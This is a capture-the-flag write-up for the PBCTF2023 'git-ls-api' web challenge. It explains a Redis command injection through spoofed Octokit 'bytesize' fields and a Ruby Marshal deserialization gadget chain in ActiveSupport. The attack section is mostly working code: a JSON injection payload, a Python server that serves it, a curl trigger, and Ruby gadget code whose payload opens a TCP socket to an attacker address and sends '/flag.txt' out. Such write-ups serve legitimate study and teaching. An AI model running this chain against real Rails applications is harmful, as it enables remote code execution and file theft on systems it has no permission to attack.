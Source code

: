 ```yaml
---
layout: post
title:  "PBCTF2023 git-ls-api"
date:   2023-02-22 
author: numbers
tags: [web, ruby]
---
```


We are given the source to a simple service which displays the SHA hash and file list for a github project. We can also provide an `api_endpoint` and it will retrieve from our host instead.

the `index` endpoint invokes `octokit` to retrieve the SHA and tree of the target repo. While searching the net to understand how `Octokit` works, I found a [gitlab bug](https://gitlab.com/gitlab-org/gitlab/-/issues/371098) where the importer could be hijacked via improper passing of a `SawyerResource` object to a caching function. The bug in this challenge wound up being almost identical, but using the built in rails redis cacher rather than being in gitlab's methods. 

The redis command serializer assumes that it will receive a normal flat bytelike or string object, and uses `to_s` to get the value and `bytesize` to compute the length.  `SawyerResource` objects are automagic structs produced directly from our input JSON, so we can set those to mismatch when constructing the RESP command string (it doesn't check that it's the builtin `bytesize` method and not just a field on the input). This lets us inject redis commands directly by using something like:

```python
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}
```
The serializer will process the length of the innermost string as `2` but insert the entire string into the command. By completing the remaining fields as part of our input, then starting a new command with the `*` character, we can inject additional commands. Here, I'm invoking a `set` command. Once we have command injection, we still need some way of gaining additional control to read the flag from disk. 

The redis connector is invoked with `raw: True` for both directly controlled fields, but there's a third value stored for every connection which doesn't have that

```ruby
 def session
    Rails.cache.fetch(session_id, expires_in: 5.minutes) do
      { created_at: DateTime.now }
    end.to_json
  end
```

Values fetched without `raw: True` will be unmarshalled, leading to a classic ruby unmarshalling exploit. We can use redis injection to set our `session_id` in the redis server to controlled data, then trigger it to be unmarshalled.

I wasted a _ton_ of time once I got to this point, but I  didn't really know what I was doing. I'll try to explain ruby unmarshalling best I can, but there are [numerous](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) [other](https://www.elttam.com/blog/ruby-deserialization/) [resources](https://devcraft.io/2022/04/04/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) [worth](https://github.com/haileys/old-website/blob/master/posts/rails-3.2.10-remote-code-execution.md) [reading](https://github.com/httpvoid/writeups/blob/main/Ruby-deserialization-gadget-on-rails.md).

Ruby unmarshalling exploits require a "gadget chain" (somewhat analogous to ROP chaining, i.e., reusing existing code). When unmarshalling an object, ruby will invoke the `marshal_load` and `_load`. There are nuanced differences between the two, for more info check [this link](https://blog.appsignal.com/2019/03/26/object-marshalling-in-ruby.html). A typical ruby gadget chain will start with an object which has a `marshal_load` implementation, although from my research, increasingly many exploit chains utilize more complex gadgets or indirect effects rather than directly using `marshal_load`. Whatever the initial mechanism, the general technique is to utilize ruby class which, when unmarshalled, allows you to invoke other useful functions (e.g., by setting the value of a member variable which will be invoked). Ultimately, you want to invoke a sink function which gets arbitrary ruby execution, or other behavior (e.g. shell execution) as determined by the constraints of your expoit.


I was able to replicate a few different gadget options I found online to kick off the chain. The easiest wound up being the `ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy` gadget. This gadget lets us invoke any method (without arguments) on any class. I will briefly describe the `DeprecatedInstanceVariableProxy` gadget, but definately read the source and check out other writeups for more information.

The `DeprecatedInstanceVariableProxy` implements `method_missing` which will be invoked when any unfound method is called on the class:

```ruby
def method_missing(called, *args, &block)
    @deprecator.warn(@message, caller_locations)
    target.__send__(called, *args, &block)
end
```

`Target` is implemented as:
```ruby
class DeprecatedInstanceVariableProxy < DeprecationProxy
    def initialize(instance, method, var = "@#{method}", deprecator = ActiveSupport::Deprecation.instance)
        @instance = instance
        @method = method
        @var = var
        @deprecator = deprecator
    end

    private
    def target
        @instance.__send__(@method)
    end

    def warn(callstack, called, args)
          @deprecator.warn("#{@var} is deprecated! Call #{@method}.#{called} instead of #{@var}.#{called}. Args: #{args.inspect}", callstack)
        end
    end
```

By setting `@method` and `@instance`, we can invoke any function on any class. We instantiate the deprecator as follows:

```ruby
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, CLASS)
depr.instance_variable_set(:@method, :METHOD)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@METHOD")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)
```
Replacing `CLASS` with an instance of our target class, and `METHOD` with our target method, we can invoke `CLASS.METHOD`. Note that the target method must have no arguments.

At this point, I had to go digging, as all of the sink function I've seen people mention have been patched (e.g., `ActiveModel::AttributeMethods::ClassMethods::CodeGenerator`).

I discovered `ActiveSupport::CodeGenerator::MethodSet`, which has a function `apply` which calls `module_eval` on an instance variable (very similar to how the DIVP gadget has been used before)

```ruby
def apply(owner, path, line)
  unless @sources.empty?
    @cache.module_eval("# frozen_string_literal: true\n" + @sources.join(";"), path, line)
  end
  @methods.each do |name, as|
    owner.define_method(name, @cache.instance_method(as))
  end
end
```

We can't invoke the `apply` method directly (as it requires three arguments), but examining the surrounding code we can instantiate an `ActiveSupport::CodeGenerator` and it's child `MethodSet` and invoke `execute` on the `CodeGenerator`:

```ruby
def execute
  @namespaces.each_value do |method_set|
    method_set.apply(@owner, @path, @line - 1)
  end
end
```

From here, exploitation is simple, as we have arbitrary ruby. I chose to open a TCP connection to my host, and dump the flag out, rather than trying to inject it into the HTTP response or invoking shell commands.

Here's my code to generate the payload:

```ruby
class ActiveSupport
    class Deprecation
        class DeprecatedInstanceVariableProxy
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
       end
    end
    class CodeGenerator
        class MethodSet
            METHOD_CACHES = Hash.new 
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
        end
    end
end


methodset = ActiveSupport::CodeGenerator::MethodSet.allocate
methodset.instance_variable_set(:@sources, ["f=TCPSocket.open(\"IP_ADDRESS_HERE\",1234)", "t=File.read(\"/flag.txt\")", "f.puts(t)"]) #;
methodset.instance_variable_set(:@cache, Module.class)

codegen   = ActiveSupport::CodeGenerator.allocate
codegen.instance_variable_set(:@owner, "OWNER")
codegen.instance_variable_set(:@path, "PATH")
codegen.instance_variable_set(:@line, 1)
codegen.instance_variable_set(:@namespaces, {"1"=>methodset})

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, codegen)
depr.instance_variable_set(:@method, :execute)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@execute")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)

Marshal.dump(depr)
```

I host it with python and invoke the server twice with curl. The first invokation sets the session variable in the redis cache, and the second causes it to be unmarshalled.

```python
#!/usr/bin/env python3

from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json
payload = "put_payload_here"
target = "put_sessionID_here"
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}
pwn = json.dumps(exploit).encode("utf-8")


class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        self.send_response(200)
        self.send_header('Content-type', 'application/vnd.github.v3+json')
        self.end_headers()
        
        self.wfile.write(pwn)
        
        return
    
if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 80), RequestHandler)
    server.serve_forever()
```

`curl -vv -c -b "./cookie" --path-as-is http://git-ls-api.chal.perfect.blue/a/B?api_endpoint=http://your_endpoint.net`

